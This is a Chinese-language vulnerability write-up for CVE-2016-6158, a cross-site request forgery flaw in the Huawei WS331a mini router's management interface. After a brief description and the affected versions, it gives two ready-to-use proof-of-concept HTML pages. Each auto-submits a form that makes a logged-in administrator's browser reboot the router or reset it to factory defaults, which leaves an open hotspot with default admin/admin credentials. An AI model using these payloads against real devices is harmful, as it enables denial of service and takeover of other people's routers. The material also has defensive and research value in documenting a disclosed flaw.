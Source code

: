 ```yaml
---
title: （CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞
id: zhfly3389
---
```


# （CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞

## 一、漏洞简介

HuaweiWS331a是中国华为（Huawei）公司的一款迷你无线路由器。使用WS331a-10V100R001C01B112之前版本软件的HuaweiWS331a路由器的管理界面存在跨站请求伪造漏洞。远程攻击者可通过提交特制的请求利用该漏洞恢复出厂设置或重启设备。

## 二、漏洞影响

WS331a-10 V100R001C02B017SP01及之前版本

## 三、复现过程

### POC实现代码如下：

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。

```
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```

> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。

```
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```